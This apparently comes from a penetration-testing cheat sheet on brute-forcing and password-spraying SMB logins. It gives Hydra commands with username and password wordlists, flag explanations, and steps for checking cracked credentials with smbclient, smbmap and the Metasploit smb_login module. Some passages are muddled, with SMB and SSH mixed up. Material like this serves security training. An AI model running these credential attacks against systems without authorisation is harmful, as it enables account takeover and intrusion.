


smb (TCP:139,445)
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
: if you have tried with Hydra but you got this error:
 while you know through nmap that the port 445 is open try with the MSF module
auxiliary/scanner/smb/smb_loginAs we can see ssh module has not specific parameters that we have to set
1. Execute Hydra
hydra -L usernamesFile.usr -P passwordsFile.txt smb://<server> -V |& tee output.txt
◇ -L usernamesFile.usr → wordlist of usernames
◇ -P passwordsFile.txt → wordlist of passwords
◇ -p <password> → usually for a Password Spray attack
◇ smb://<server> → ssh is the service, <server> is the target: DNS, IP or 192.168.0.0/24 (this or the -M option)
◇ -V → verbose
◇ -f / -F → exit when a login/pass pair is found (-M: -f per host, -F global)
◇ |& tee output.txt → the output will be displayed on the screen and also redirected on file
2. from the output file to see only the valid credentials
cat output.txt | grep smb
3. verify credentials with a login
◇ smbclient
smbclient //<address> -U=user%password #Linux target
smbclient \\\\<address> -U=user%password #Windows target
◇ smbmap(kali linux repo,
github repo)
root@kali:/# smbmap -u <username> -p <password> -d <domain> -H <host>
Password Spray
• Check
multiple usernames hydra -L usernamesFile.usr -p [password] ssh://<server> -V |& tee output.txt
• Check
multiple Servers hydra -l [username] -P [password] -M ssh_servers.txt ssh |& tee output.txt
alternative with Metasploit module
smb_login Check Scanner https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/